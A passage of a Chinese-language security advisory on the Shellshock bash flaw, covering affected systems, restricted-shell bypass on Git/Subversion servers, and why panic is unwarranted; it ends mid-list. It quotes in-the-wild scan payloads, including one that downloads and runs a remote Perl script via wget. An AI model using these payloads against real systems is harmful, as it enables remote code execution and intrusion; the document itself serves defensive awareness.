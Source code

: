 |Linux Mint|17 “Qiana” Cinnamon|NO [^note2]|
|Linux Mint|Debian 201403 Cinnamon|NO [^note2]|
|Mac OS X|10.9.5|NO|
|openSUSE|13.2|NO [^note1]|
|Synology|5.0-4493 update 7|NO (已修復)|

<br>

[^note1]: 系統環境變數會受到影響，但無法被攻擊者利用。
[^note2]: 若手動執行 dhclient，則會遭到漏洞影響。


####繞過 Git/Subversion 伺服器的 shell 限制

Shellshock 也常被利用來繞過伺服器的 shell 限制，最常見的就是 Git 和 Subversion 伺服器：
通常這些伺服器允許透過 SSH 連線，但登入後都對應著受限制的 shell。透過此漏洞，可以繞過 shell 的限制，執行指令如下圖。（註：OS 中 git user 預設 shell 要為 bash 才會受到影響）

[![繞過 Git/Subversion 伺服器的 shell 限制](https://lh6.googleusercontent.com/-6fJsJ1BkK6c/VCrMAm9n57I/AAAAAAAAAsE/ovEnfiijQ-g/w878-h530-no/shellshock_test_git.png "繞過 Git/Subversion 伺服器的 shell 限制")](https://lh6.googleusercontent.com/-6fJsJ1BkK6c/VCrMAm9n57I/AAAAAAAAAsE/ovEnfiijQ-g/w878-h530-no/shellshock_test_git.png)

一般我們要實作特定使用者登入 ssh 只能做特定的事情，常常會在 sshd_config 設定 ForceCommand，或是在 authorized_keys 設定 command= 如下：

```
command="[path]/gl-auth-command sitaram",[more options] ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEA18S2t...
```

這次會受到 Shellshock 影響，就是因為這些設定會在使用者透過 ssh 登入時，呼叫 bash 執行，當環境變數被引入，惡意的程式碼就會被執行了。


###Shellshock 威脅仍在擴大

目前不管是白帽駭客或是黑帽駭客都還在持續尋找可以利用 Shellshock 的地方，如同前面所述，找到可以寫入環境變數的地方，並且順利傳入 bash 執行，就可以利用該弱點來執行更進一步的攻擊。

從 Shellshock 爆發至今，陸陸續續傳出了很多公司的產品受到此弱點影響，整理[在此](http://www.kb.cert.org/vuls/byvendor?searchview&Query=FIELD+Reference=252743&SearchOrder=4)，也有一些 POC 整理在[這裡](https://github.com/mubix/shellshocker-pocs/)。 其中不乏出現一些常用知名套件如：OpenVPN、Pure-FTPd，而且持續更新中。

現在針對 HTTP 伺服器的攻擊還是佔多數，截至目前為止我們仍持續發現網路上有各種掃描樣本，例如：

- () { :;}; /bin/bash -c \"echo testing9123123\"; /bin/uname -a
- () { :;}; /bin/bash -c \"wget -P /var/tmp 174.143.2XX.XX/.../x ; perl /var/tmp/x\"
- () { :;};echo vOLniO4dcLqW2I3MnIVpSfk8bmzyxXaIF$(echo vOLniO4dcLqW2I3MnIVpSfk8bmzyxXaIF)vOLniO4dcLqW2I3MnIVpSfk8bmzyxXaIF


除了這些陸續針對 HTTP 伺服器的案例，我們認為，一些公司購入的網路設備是 Shellshock 潛在高危險群，那些買來就擺在旁邊維運的設備，一來容易被忽略，二來是其更新不易，三來這些設備常使用到 bash，因此仍是現在惡意攻擊者專注研究的目標，請大家特別小心。


###結論：無需過度恐慌，但別掉以輕心

「只要有 bash 的系統全部都是受駭範圍！」

不少朋友看到最近 Shellshock 的新聞報導，都十分緊張。儘管各位所使用的 bash 是含有漏洞的版本，但要成功執行攻擊手法需要許多條件，被攻擊者從遠端攻擊的機率偏低，因此大家不需要太過恐慌，只要注意以下設備或伺服器：
